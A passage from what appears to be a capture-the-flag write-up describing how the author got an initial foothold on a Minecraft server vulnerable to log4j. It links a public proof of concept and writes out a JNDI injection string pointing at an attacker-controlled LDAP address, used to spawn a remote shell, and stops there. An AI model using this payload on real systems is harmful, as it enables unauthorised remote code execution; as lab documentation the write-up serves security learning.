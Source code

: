 ![Connected](img/13_crafty.png)


## Step 3 - Initial foothold
So this version was supposedly vulnerable to log4j (as found out earlier), and I remember reading in the news a few years ago not to play Minecraft Multiplayer, as it was vulnerable. After a quick online search I found a [PoC on GitHub](https://github.com/kai63001/minecraft-log4j-rce-poc) which contained the message that could be used to exploit the vulnerability.

In the Minecraft multiplayer session, I entered `${jndi:ldap://10.10.14.66:4455/a}` in the chat:  
![RCE](img/14_crafty.png)  

And with my listener ready, I hit enter, which spawned a shell:  